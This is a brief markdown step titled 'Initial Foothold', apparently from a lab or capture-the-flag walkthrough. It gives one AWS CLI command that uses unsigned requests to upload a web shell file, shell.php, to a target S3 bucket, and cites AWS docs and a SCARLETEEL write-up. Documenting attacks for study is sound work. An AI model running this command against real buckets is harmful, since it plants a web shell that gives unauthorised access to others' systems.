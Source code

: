 # 03 - Initial Foothold

`$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>`

## References

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

https://sysdig.com/blog/scarleteel-2-0/